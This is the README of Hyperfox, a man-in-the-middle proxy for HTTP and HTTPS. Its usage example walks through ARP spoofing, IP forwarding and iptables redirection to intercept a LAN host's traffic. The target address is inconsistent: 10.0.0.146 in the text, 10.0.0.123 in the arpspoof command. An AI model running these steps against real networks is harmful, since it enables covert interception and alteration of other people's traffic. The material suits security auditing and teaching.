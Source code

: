 # Hyperfox

Hyperfox is a security tool for Man In The Middle operations over HTTP and
HTTPs.

Hyperfox can be used as a tool for auditing a wide range of applications,
including mobile applications that do not properly verify certificates or that
do not use certificates at all.

The `hyperfox` tool is a default distribution of the Hyperfox proxy.

Hyperfox can also be used as a library to develop special proxies with [Go][1],
if you're interested on programming a special proxy for any special MITM
operation you may read the library documentation at [godoc.org][6].

## Features of the Hyperfox tool

The Hyperfox tool has some useful features:

* Saves all the traffic between client and server.
* Can modify server responses before arriving to the client.
* Can modify client requests before sending them to the destination server.
* Supports SSL/TLS.
* Supports streaming.

## Getting Hyperfox

You can download a pre-compiled version of the Hyperfox tool:

* [Linux x86_64][https://menteslibres.net/files/hyperfox/hyperfox-1.0-linux-x64]
* [OSX x86_64][https://menteslibres.net/files/hyperfox/hyperfox-1.0-darwin-x64]

Once you've downloaded the appropriate binary move it to `$HOME/bin/hyperfox`
and call it using the full path:

```
~/bin/hyperfox -h
```

If you have `$HOME/bin` in your `$PATH`, you may as well call `hyperfox`
without the full path:

```
hyperfox -h
```

If you have [Go][1] and [git][2] you can use `go get` to download the source
and compile the Hyperfox tool by yourself:

```sh
go get github.com/xiam/hyperfox
hyperfox -h
```

## Usage example

A. Make sure the [dsniff][5] tool is installed in the MITM machine, we are
going to use the `arpspoof` tool (part of [dsniff][5]) to alter the ARP table
of a specific machine on LAN to make it redirect its traffic to us instead of
to the legitimate LAN gateway. This ancient technique is known as
[ARP spoofing][4].

B. Identify the LAN IP of the machine you want to intercept traffic for. Let's
suppose you want to intercept traffic from `10.0.0.146`.

C. Identify the IP of your router and the name of the interface you're
connected with, let's say your router is `10.0.0.1` and you're connected to
the router through `wlan0`.

```
# route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.0.0.1        0.0.0.0         UG    0      0        0 wlan0
```

D. Put the MITM machine in [IP forwarding][3] mode.

```sh
# Linux
sysctl -w net.ipv4.ip_forward=1

# FreeBSD/OSX
sysctl -w net.inet.ip.forwarding=1
```

E. Run hyperfox:

```
$ hyperfox
2013/08/25 08:21:36 Hyperfox tool, by Carlos Reventlov.
2013/08/25 08:21:36 http://www.reventlov.com

2013/08/25 08:21:36 Listening for HTTP client requests at 0.0.0.0:9999.
```

If you want to analyze HTTPs instead of HTTP, use the `-s` flag and provide
appropriate
[cert.pem](https://github.com/xiam/hyperfox/raw/master/ssl/cert.pem) and
[key.pem](https://github.com/xiam/hyperfox/raw/master/ssl/key.pem) files.

```sh
hyperfox -s -c ssl/cert.pem -k ssl/key.pem
```

F. Prepare the machine to forward everything but the port hyperfox will
intercept (`80`, for plain HTTP), instead tell it to forward the traffic on
port `80` to the `9999` port on `127.0.0.1` (where `hyperfox` is listening).

```sh
# Linux (HTTP)
iptables -A PREROUTING -t nat -i wlan0 -p tcp --destination-port 80 -j REDIRECT \
--to-port 9999

# FreeBSD/OSX (HTTP)
ipfw add fwd 127.0.0.1,9999 tcp from any to any 80 via wlan0
```

G. Run `arpspoof` to make `10.0.0.146` think our host is `10.0.0.1` (the
LAN's legitimate gateway), once the ARP spoofing is completed, `10.0.0.146` will
start to send its traffic through our machine.

```sh
arpspoof -i wlan0 -t 10.0.0.123 10.0.0.1
```

H. !???

I. Profit!

[1]: http://golang.org/doc/install
[2]: http://git-scm.com
[3]: http://en.wikipedia.org/wiki/IP_forwarding
[4]: http://en.wikipedia.org/wiki/ARP_spoofing
[5]: http://monkey.org/~dugsong/dsniff/
[6]: http://godoc.org/github.com/xiam/hyperfox/proxy
